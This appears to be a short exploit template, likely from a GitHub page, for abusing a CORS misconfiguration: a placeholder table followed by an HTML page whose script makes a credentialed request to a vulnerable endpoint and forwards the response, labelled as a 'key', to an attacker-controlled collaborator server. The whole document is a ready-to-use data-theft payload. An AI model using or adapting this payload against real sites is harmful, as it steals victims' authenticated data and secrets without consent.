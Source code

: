 | For Change | Description |
| --- | --- |
| {ENDPOINT} | Vulnerable endpoint address |
| {MyServer} | Collaborator address |

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var req = new XMLHttpRequest();
        req.onload = reqListener;
        req.open('get','{ENDPOINT}',true);
        req.withCredentials = true;
        req.send();

        function reqListener() {
        location='{My_Server}/exploit?key='+this.responseText;
};
      }
      submitRequest();
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>
```
